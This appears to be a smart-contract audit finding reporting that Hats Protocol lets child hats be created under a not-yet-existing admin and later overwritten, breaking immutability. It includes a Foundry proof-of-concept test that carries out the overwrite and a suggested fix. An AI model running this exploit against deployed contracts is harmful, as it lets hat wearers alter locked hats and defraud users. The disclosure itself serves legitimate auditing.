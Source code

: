 carrot

high

# Hats can be overwritten

## Summary
Child hats can be created under a non-existent admin. Creating the admin allows overwriting the properties of the child-hats, which goes against the immutability of hats.
## Vulnerability Detail
When creating a hat, the code never checks if the admin passed actually exists or not. Thus it allows the creation of a hat under an admin who hasn't been created yet. 
Lets say top hat is 1.0.0, and we call admin the hat 1.1.0 and child is hat 1.1.1. The child can be created before admin. When admin (1.1.0) is created after this, it overwrites the  `lastHatId` of the admin, as shown here
https://github.com/Hats-Protocol/hats-protocol/blob/fafcfdf046c0369c1f9e077eacd94a328f9d7af0/src/Hats.sol#L421-L439
```solidity
    function _createHat(
        uint256 _id,
        string calldata _details,
        uint32 _maxSupply,
        address _eligibility,
        address _toggle,
        bool _mutable,
        string calldata _imageURI
    ) internal returns (Hat memory hat) {
        hat.details = _details;
        hat.maxSupply = _maxSupply;
        hat.eligibility = _eligibility;
        hat.toggle = _toggle;
        hat.imageURI = _imageURI;
        hat.config = _mutable ? uint96(3 << 94) : uint96(1 << 95);
        _hats[_id] = hat;


        emit HatCreated(_id, _details, _maxSupply, _eligibility, _toggle, _mutable, _imageURI);
    }
```
Now, the next eligible hat for this admin is 1.1.1, which is a hat that was already created and minted. This can allow the admin to change the properties of the child, even if the child hat was previously immutable. 
This contradicts the immutability of hats, and can be used to rug users in multiple ways, and is thus classified as high severity.
This attack can be carried out by any hat wearer on their child tree, mutating their properties.
## Impact

## Code Snippet
The attack can be demonstrated with the following code which carries out the following steps:
1. Child 1.1.1 is created with max supply 10, and false mutability. Thus its properties should be locked.
2. Admin 1.1.0 is created
3. Child 1.1.1 is re-created, now with supply of 20, overwriting its previous instance
4. The children are shown to be on the same hatId, and their max supplies are shown to be different values.
```solidity
function testATTACKoverwrite() public {
        vm.startPrank(address(topHatWearer));
        uint256 emptyAdmin = hats.getNextId(topHatId);
        uint256 child1 = hats.createHat(
            emptyAdmin,
            _details,
            10,
            _eligibility,
            _toggle,
            false,
            secondHatImageURI
        );
        (, uint256 maxsup, , , , , , , ) = hats.viewHat(child1);
        assertEq(maxsup, 10);
        hats.createHat(
            topHatId,
            _details,
            _maxSupply,
            _eligibility,
            _toggle,
            false,
            secondHatImageURI
        );
        uint256 child2 = hats.createHat(
            emptyAdmin,
            _details,
            20,
            _eligibility,
            _toggle,
            false,
            secondHatImageURI
        );
        (,  maxsup, , , , , , , ) = hats.viewHat(child1);
        assertEq(child1, child2);
        assertEq(maxsup, 20);
    }
```
## Tool used

Manual Review

## Recommendation
Check if admin exists, before minting by checking any of its properties against default values
```solidity
require(_hats[admin].maxSupply > 0, "Admin not created")
```